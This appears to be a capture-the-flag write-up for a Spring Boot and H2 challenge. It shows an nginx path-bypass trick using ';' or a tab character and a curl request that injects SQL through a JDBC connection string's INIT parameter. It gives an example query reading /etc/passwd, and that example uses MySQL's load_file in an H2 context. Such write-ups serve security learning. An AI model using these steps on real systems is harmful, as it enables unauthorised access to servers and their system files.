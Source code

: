 # PortfolioS

### Resources

#### 1. H2 database

([https://www.h2database.com/h2.pdf](https://www.h2database.com/h2.pdf))

{% embed url="https://www.h2database.com/html/features.html" %}

{% embed url="https://www.h2database.com/html/grammar.html" %}

{% embed url="https://www.baeldung.com/spring-boot-h2-database" %}

{% embed url="https://www.baeldung.com/java-h2-executing-sql-scripts" %}

#### 2. Exploit H2 database

{% embed url="https://www.code-intelligence.com/blog/cve-jdbc-mysql-driver-rce-unauthorized-read-write-access" %}

{% embed url="https://sqlwiki.netspi.com/attackQueries/executingOSCommands/#mysql" %}

{% embed url="https://dev.mysql.com/doc/refman/8.4/en/select-into.html" %}

{% embed url="https://dev.mysql.com/doc/refman/8.4/en/string-functions.html#function_load-file" %}

{% embed url="https://github.com/Avento/CVE-2023-21971_Analysis" %}

#### 3. Others

{% embed url="https://bksec.vn/blog/writeup-cscv-2025" %}

{% embed url="https://github.com/awslabs/aws-mysql-jdbc/security/advisories/GHSA-vj9v-mpjv-qf74" %}

{% embed url="https://stackoverflow.com/questions/3833578/linux-command-for-extracting-war-file" %}



### Analysis of the configuration files

1. `nginx.conf`

```nginx
events {}

http {
    server {
        listen 80;

        location = /internal/testConnection {
            return 403;
        }

        location / {
            proxy_pass http://app:8989;

            proxy_set_header Host $host:8989;
            proxy_set_header X-Real-IP $remote_addr;
        }
    }
}
```

* We can see that the `/internal/testConnection` route is filtered, and returns a 403 response.

### 1. Extraction and analysis of source code

...

#### 1.1 Extract files from `.war`

```sh
$ sudo apt install default-jdk
$ jar xvf /path/to/portfolio.war
```

#### 1.2 Decompile selected .class files

*   There are a few files of interest:

    1\) `WEB-INF/classes/com/ctf/portfolio/controller/AuthController.class`

    2\) `WEB-INF/classes/com/ctf/portfolio/controller/InternalController.class`

    3\) ...



* We can use the **CFR Java Decompiler**
  * Install the `cfr-xxx.jar` file from the [Github ](https://github.com/leibnitz27/cfr)repository release page (filename depends on the current version):

```sh
$ java -jar cfr-xxx.jar <to-decompile>.class
```

* Alternatively, we can use directly open any `.class` file in an editor such as Visual Studio Code, which will automatically decompile it.

#### 1.3 Analysis of the source cod`e`

a. From the import statements defined in the `.class` files, we can identify that the Spring framework is used

b. From the `WEB-INF/classes/com/ctf/portfolio/controller/InternalController.class` file, we can identify that H2 database is in use:

<figure><img src="../../../.gitbook/assets/image (61).png" alt=""><figcaption></figcaption></figure>



### 2. Exploring the H2 database configuration

From the `internalController.class`  file we have analyzed previously, we see the definition for the **POST** `/internal/testConnection` route:

<figure><img src="../../../.gitbook/assets/image (62).png" alt=""><figcaption></figcaption></figure>

Notice that the `fullUrl` variable is crafted from an input that we can control. This variable is used as an  argument to the `DriverManager.getConnection()` function.&#x20;

With this, we have an interesting attack vector. However, remember that the `/internal/testConnection` route returns a 403 error? Read on to understand how we can bypass this restriction.

#### 2.1 nginx + spring boot

{% embed url="https://blog.1nf1n1ty.team/hacktricks/pentesting-web/proxy-waf-protections-bypass#spring-boot" %}

From enumeration, we can identify that the Nginx is running on version 1.20.2 (_**Server**_ field from the HTTP response headers). Fortunately for us, that particular version of Nginx has a character bypass vulnerability which results from the Nginx WAF not removing a certain few characters (during normalization), but will be removed by the Spring boot server. The characters are:

```
\x09, ;
```

Hence, if we send a request to the `/internal/testConnection\0x09` or `/internal/testConnection;` routes, it will successfully bypass the Nginx filters. This will allow us to send a request to the `/internal/testConnection` route as if the Nginx filter is not present.

#### 2.2 Exploiting the unsanitized input to the `.getConnection()` function

> Refer to the links above for more information regarding H2 database, and how to execute SQL commands, and escalate to RCE from there

{% code overflow="wrap" %}
```sh
$ curl -X POST "http://<target>/internal/testConnection;" -H "Cookie: JSESSIONID=xxxx" -H "content-type: application/json" -d "username=sa&password=;DB_CLOSE_DELAY=-1;INIT=<SQL>;"
```
{% endcode %}

* `<SQL>` can be replaced with any SQL commands:

{% code overflow="wrap" %}
```sql
SELECT load_file("/etc/passwd") from information_schema
...

```
{% endcode %}

* `DB_CLOSE_DELAY = -1`&#x20;

> This option ensures the database remains open as long as the Java Virtual Machine (JVM) is running. It prevents it from closing automatically when the last connection is closed. By default, the database closes when the last connection is terminated. The default value is zero. However, it’s essential to shut down the database with a shutdown command to avoid potential memory leaks.

